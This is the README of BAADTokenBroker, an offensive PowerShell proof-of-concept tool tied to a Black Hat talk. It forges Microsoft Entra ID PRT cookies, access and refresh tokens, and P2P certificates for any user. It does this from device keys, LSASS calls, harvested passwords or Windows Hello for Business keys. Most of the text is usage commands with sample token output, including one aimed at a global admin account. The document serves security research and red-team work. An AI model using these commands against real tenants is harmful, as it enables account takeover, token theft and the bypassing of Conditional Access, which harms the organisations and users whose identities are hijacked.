# BAADTokenBroker

BAADTokenBroker is a post-exploitation tool designed to leverage device-stored keys (Device key, Transport key etc..) to authenticate to Microsoft Entra ID.

https://www.blackhat.com/asia-24/briefings/schedule/index.html#bypassing-entra-id-conditional-access-like-apt-a-deep-dive-into-device-authentication-mechanisms-for-building-your-own-prt-cookie-37344

Note that this is a proof of concept tool. The tool is provided as is, without warranty of any kind.

## Usage

Import BAADTokenBroker in your target machine.

```
PS C:\ > import-module .\BAADTokenBroker.ps1
```

Then, execute whichever commands satisfy your needs.

- Request-PRTCookie: Request PRT Cookie of logged on user directly talking to lsass
- Create-PRTCookie: Create PRT Cookie of any user with their credentials or Windows Hello for Business (WHfB) keys
- Acquire-Token: Acquire access tokens and refresh tokens of any user with their credentials or WHfB keys

### Request-PRTCookie

Requests PRT Cookie of a logged-on user through LsaCallAuthenticationPackage

```
PS C:\> Request-PRTCookie
eyJhbGciOiJIUzI1NiIsICJrZGZfdmVyIjoyLCAiY3R4IjoiYTl0TVU4eitBbXluVWc1eHZZUkQrQSthaXNpQXNyclMifQ.eyJyZWZyZXNoX3Rva2VuIjoiMC5BVDBBN21SUVppwU25SWUIxU1ZqLUhnZDhBZ0RzX3dVQTlQOVp(redacted)llbnRfcGxhdGZvcm0iOiJ3aW5kb3dzIiwgInJlcXVFdJZmd6UTF5c3Zub2J4TWZycXFZclJ3bnFCSWdBQSJ9.okbIEJUopSjQ5ZKYvFd9aK5qCatVfk0oNNLD_L4NEQg
```

### Create-PRTCookie

Authenticates to Microsoft Entra ID and returns any user's PRT Cookie with their credentials

```
PS C:\>  Create-PRTCookie -Username employee01@*******.onmicrosoft.com -Password *********
eyJhbGciOiJIUzI1NiIsImtkZl92ZXIiOjIsImN0eCI6InY0algrcG1SbWlSQ3p5UFZnTDgxdDlLREJwbU5OZEpaIn0.ew0KICAgICJ4X2NsaWVudF9wbGF0Zm9ybSI6ICAid2luZG9W4iOiAgIjAuQVQwQTdtUlFaRzZiMjBPZFJ2NkJwb(redacted)GQ4N1lGU2hRcEJJa1BEMjVxTmZHYjRXa2RTVGJ2T1NkZ2doQ29vTlQlFEMF82SHZNOXZqdTFDaW9TZW9mLUpGVV9DYjZWcDlXN3pobmVMSHFSeFotb3dIVmNDQVg2OFMxNXNtZVl3OVYySDZIRFlzSllMVkNlN0g4YV85TVlCRGRFWWdBQSINCn0.DVMCeNGyTYTjsEMbHJtjmckkRYkb-VZ0GLceQYOvoIA
```

If you have access to WHfB keys configured user, you can also generate PRT Cookie of the user with their WHfB keys.

```
PS C:\>  Create-PRTCookie -Username employee01@*******.onmicrosoft.com -Whfb $True
eyJhbGciOiJIUzI1NiIsImtkZl92ZXIiOjIsImN0eCI6IkhOcmlXRlRBV1lsVFNDK3Z0T1FqcWcwclFBQnNOT083In0.ew0KIZG93cyIsDQogICAgIndpbl92ZXIiOiAgIjEwLjAuRLkFnQUJBQUVBQUFEbmZvbGhKcFNuUllCMVNWai1IZ2Q4QWdEc193VUE5UF9tQlJBVXNLTFhtbTdFRTV4NUplWlFKVlpEdD(redacted)zRzX0otWTI0ZmYtTEo1dS0wVXVQN2tQSjE5MW44QnFRR0l0RDBneXRFa285S2YwajU3bFRmcFJaU3lLYkRZZEZFaGs4aVFJNnBwaTV5ZFpoclUzSXFkUl9tYlpucW1NZ0FBIg0KfQ.BOlt7yiMYM47L6Z3awVH6zgW_B4xH-Ys8iv8HmY3XqM
```

### Acquire-Token

Authenticates to Microsoft Entra ID and returns access tokens and refresh tokens with supplied credentials or WHfB keys

```
PS C:\> $response = Acquire-Token -Username employee01@*******.onmicrosoft.com -Password ********* -Resource f2d19332-a09d-48c8-a53b-c49ae5502dfc -Clientid 29d9ed98-a469-4536-ade2-f981bc1d605e
PS C:\> $response.access_token
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6InEtMjNmYWxldlpoaEQzaG05Q1Fia1A1TVF5VSIsImtpZCI6InEtMjNmYWxldlpoaEQzaG05Q1Fia1A1TVF5VSJ9.eyJhdWDlQzZGItOWQ0Ni1mZTgxYTY1Y2ZkZWEvIiwiaWF0Ij4LCJuYmYiOjE3MTE3MDk3MjgsImV4cCI6MTcxMTcxNDYyNSwiYWNyIjoiMiIsImFpbyI6IkFiUUFTLzhXQUFBQXN5K1BjUUZZZnpuK2tldUxEaXhyQ2h6TzB0Tm(redacted)pWZDBlZWY1cmp1VWdQQUEiLCJ2ZXIiOiIxLjAifQ.DaByirnDkLbsHLBVV2neoSVDjAdIXOcwVVlJIr6S-uBWzqjel3lvwPRZM8lvtoyLRqg3A4JoQt7nZc8TCB1L6s69Src33DC9woArh8PwcUaOguGnMJANV5s-qhfg8ot9yNkf9W24Bxg4LzlUnXsmZS5dfNOuhVkbfz2MJ9nm3b_qtNYK1fZpuuOLR49DByFWvGRw
```

### Request-P2P

Request any user's P2P cert with their credentials

```
PS C:\> Request-P2PCert -Username globaladmin@****.onmicrosoft.com -Password *******
```